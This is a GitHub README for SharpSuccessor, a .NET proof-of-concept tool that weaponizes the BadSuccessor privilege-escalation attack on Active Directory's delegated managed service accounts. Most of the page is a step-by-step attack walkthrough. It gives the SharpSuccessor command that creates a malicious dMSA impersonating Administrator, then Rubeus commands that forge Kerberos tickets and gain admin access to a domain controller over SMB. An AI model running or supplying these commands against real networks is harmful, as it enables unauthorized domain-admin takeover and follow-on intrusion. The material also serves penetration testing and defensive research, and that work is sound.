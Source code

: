 # SharpSuccessor

SharpSuccessor is a .NET Proof of Concept (POC) for fully weaponizing Yuval Gordon’s ([@YuG0rd](https://x.com/YuG0rd)) [BadSuccessor](https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory) attack from Akamai. A low privilege user with `CreateChild` permissions over any Organizational Unit (OU) in the Active Directory domain can escalate privileges to domain administrator.

Use SharpSuccessor to add and weaponize the dMSA object, setting the account with access to the current user context:
```
SharpSuccessor.exe add /impersonate:Administrator /path:"ou=test,dc=lab,dc=lan" /account:jdoe /name:attacker_dMSA
```
![image](https://github.com/user-attachments/assets/adf814ad-3a67-4862-b01e-01cf42df0747)

Request a TGT as the current user context, in this case `jdoe`:
```
Rubeus.exe tgtdeleg /nowrap
```
![image](https://github.com/user-attachments/assets/90784c3d-0961-437a-9212-51c0accacad1)


Then use that tgt to impersonate the dMSA account:
```
Rubeus.exe asktgs /targetuser:attacker_dmsa$ /service:krbtgt/lab.lan /opsec /dmsa /nowrap /ptt /ticket:doIFTDCCB.....
```
![image](https://github.com/user-attachments/assets/7f642c89-7c87-4f48-bb60-a8d9be684912)


Now you can request a service ticket with Administrator context for any SPN, including the Domain Controllers for post-exploitation. For example here I will show admin privileges for SMB on the domain controller:

```
Rubeus.exe asktgs /user:attacker_dmsa$ /service:cifs/WIN-RAEAN26UGJ5.lab.lan /opsec /dmsa /nowrap /ptt /ticket:doIF2DCCBdS...
```
![image](https://github.com/user-attachments/assets/f4799c6d-ef21-4fbc-af2d-2fd900545937)

Now that we have the ticket in memory, we can test access:

![image](https://github.com/user-attachments/assets/6838bb98-5b7a-406a-a889-9e9236a3428f)

## Assistance and Inspirations
Massive thanks to [Jim Sykora](https://github.com/JimSycurity) and [Garrett Foster](https://x.com/unsigned_sh0rt) for the inspirations and assistance for this tool!
